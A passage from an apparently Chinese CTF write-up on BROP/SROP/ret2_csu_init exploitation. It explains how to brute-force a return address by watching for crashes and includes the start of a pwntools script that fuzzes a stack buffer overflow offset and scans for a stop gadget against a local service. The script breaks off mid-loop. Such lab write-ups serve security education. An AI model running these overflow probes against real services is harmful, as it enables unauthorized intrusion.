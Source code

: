 构造如下的栈布局：

![](../image/2019-12-13-srop、brop和ret2_csu_init技术分析/3.png)

如果ret addr填充的是连续pop六次的地址，则最后会call stop gadget 进入main函数，显示正常。不是ret addr错误程序就会崩溃，我们可以据此爆破出ret addr的地址。

exp：

```
from pwn import *
from LibcSearcher import *
import time

host = 'localhost'
port = 10001

def log_on():
    context.log_level = 'info'
def log_off():
    context.log_level = 'critical'

def fuzz_offset(): #(1)
    i = 1
    while True:
        try:
            p = remote(host, port)
            p.recvuntil("WelCome my friend,Do you know password?\n")
            p.send('A'*i)
            result = p.recv()
            p.close()
            if not "No password" in result:
                return i-1
            else:
                #print i
                i += 1
        except EOFError:
            p.close()
            return i-1

def fuzz_stop_gadget(offset): #(2)
    addr = 0x400000
    while True:
        addr += 1
        try:
            p = remote(host, port)
            p.recvuntil("WelCome my friend,Do you know password?\n")
            payload = 'A'*offset + p64(addr) 
```
